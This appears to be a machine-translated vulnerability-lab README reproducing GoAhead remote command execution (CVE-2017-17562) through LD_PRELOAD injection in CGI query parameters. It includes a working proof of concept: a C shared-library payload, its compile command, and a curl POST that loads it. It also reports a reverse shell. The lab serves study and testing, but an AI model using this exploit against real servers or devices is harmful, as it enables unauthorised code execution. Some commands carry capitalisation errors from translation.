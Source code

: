 # GoAhead Remote Command Execution Vulnerability (CVE-2017-17562)

GoAhead is an open source (commercial license), simple, lightweight, powerful Web Server that can run on multiple platforms, mostly used in embedded systems and smart devices. It supports running ASP, Javascript, and standard CGI programs. This vulnerability occurs when running CGI programs.

After receiving the request, GoAhead will retrieve the key and value from the URL parameter and register it into the environment variable of the CGI program, and only filter `REMOTE_HOST` and `HTTP_AUTHORIZATION`. We have control over environment variables and there are many ways to attack. For example, in Linux, the environment variable at the beginning of `LD_` is related to the dynamic link library. For example, the dynamic link library specified in `LD_PRELOAD` will be automatically loaded; the path specified by `LD_LIBRARY_PATH` will be used by the program to find the dynamic link library. .

We can specify `LD_PRELOAD=/proc/self/fd/0` because `/proc/self/fd/0` is the standard input, and in CGI programs, the POST data stream is the standard input stream. We compile a dynamic link library, put it in the POST Body, and send it to `http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`, CGI will load the dynamics we send. Link library, causing remote command execution vulnerabilities.

Reference link:

 - https://www.elttam.com.au/blog/goahead/

## vulnerability environment

Start the vulnerability environment:

```
Docker-compose up -d
```

After the startup is complete, visit `http://your-ip:8080/` to see the welcome page. Visit `http://your-ip:8080/cgi-bin/index` to view the Hello page, which is the result of CGI execution.

## Vulnerability recurrence

We first need to compile a dynamic link library and it needs to be the same as the target architecture. So in actual combat, if the other party is a smart device, you may need to cross-compile. Because Vulhub runs on a Linux x86_64 machine, we can compile it directly with a Linux PC. Dynamic link library source code:

```C
#include <unistd.h>

Static void before_main(void) __attribute__((constructor));

Static void before_main(void)
{
    Write(1, "Hello: World!\n", 14);
}
```

Thus, the `before_main` function will be called before the program is executed. Compile the above code:

```
Gcc -shared -fPIC ./payload.c -o payload.so
```

Send payload.so as post body:

```
Curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
```

It can be seen that `Hello: world!` has been successfully output, indicating that the code in our dynamic link library has been executed:

![](1.png)

Compile a code that bounces the shell and successfully bounces the shell:

![](2.png)